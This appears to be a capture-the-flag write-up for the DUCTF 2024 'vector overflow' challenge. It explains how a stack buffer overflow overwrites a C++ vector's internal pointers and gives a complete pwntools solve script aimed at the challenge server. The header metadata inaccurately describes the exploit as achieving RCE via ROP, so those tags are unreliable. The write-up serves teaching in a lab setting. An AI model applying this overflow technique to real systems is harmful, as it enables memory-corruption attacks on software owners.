 ```yaml
---
ai_date: '2025-04-27 05:15:26'
ai_summary: Overflow exploit using buffer overflow to modify vector's address and
  achieve RCE, payload includes address of 'buf'
ai_tags:
- buffer-overflow
- rop
- rce
created: 2024-07-05T19:31
description: Where do vectors point to?
points: 100
solves: 239
updated: 2024-07-07T21:39
---
```


## Analysis

A simple overflow challenge, where we have to modify a vector's values to `DUCTF`.

```cpp
char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
```

Since this is something new for me, let's examine the memory structure with a custom function.

```cpp
#include <iomanip>
void printMemory(void *startAddress, size_t length){
    unsigned char *address = static_cast<unsigned char *>(startAddress);
    for (size_t i = 0; i < length; ++i) {
        std::cout << std::hex << std::setw(2) << std::setfill('0') << static_cast<int>(address[i]) << ' ';
        if ((i + 1) % 16 == 0) std::cout << std::endl;
    }
    if (length % 16 != 0) std::cout << std::endl;
}
```

```
memory starting from 'buf'
44 55 43 54 46 41 41 41 41 41 41 41 41 41 41 41 <buf>
b0 2e 8c 00 00 00 00 00 b5 2e 8c 00 00 00 00 00 <vec>
b5 2e 8c 00 00 00 00 00 00 00 00 00 00 00 00 00 <vec>
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Looking through llvm definitions...

```cpp
template <class _Tp, class _Allocator>
inline _LIBCPP_INLINE_VISIBILITY
__vector_base<_Tp, _Allocator>::__vector_base()
        _NOEXCEPT_(is_nothrow_default_constructible<allocator_type>::value)
    : __begin_(nullptr),
      __end_(nullptr),
      __end_cap_(nullptr)
{
}
```

It seems those three 8 byte values are `begin`, `end` and `end_cap` resp.
## Attack

We can overwrite `buf` to `DUCTFAAAAAAAAAAA`, followed by the address of `buf` encoded, so the vector is now pointing to `buf`.

By looking at the decompiled code of the challenge, we can find the address of `buf` to be `0x4051e0` (with the help of Godbolt).

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720224977/2024/07/ac6d54f8474b94456be9b46d305410db.png)

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720225053/2024/07/0961ccc9368b9a43f078e593b3a663b1.png)

We can craft our payload like this.

```python
payload = b'DUCTF' + b'A'*11 + loc + end + end
```

### Solve Script

```python
from pwn import *
context.log_level = 'error'
loc = 0x4051e0
end = loc + 5
loc = loc.to_bytes(8, byteorder='little')
end = end.to_bytes(8, byteorder='little')
payload = b'DUCTF' + b'A'*11 + loc + end + end
conn = remote("2024.ductf.dev", 30013)
conn.sendline(payload)
conn.sendline(b"cat flag.txt")
print(conn.recv())

# b'DUCTF{y0u_pwn3d_th4t_vect0r!!}\n'
```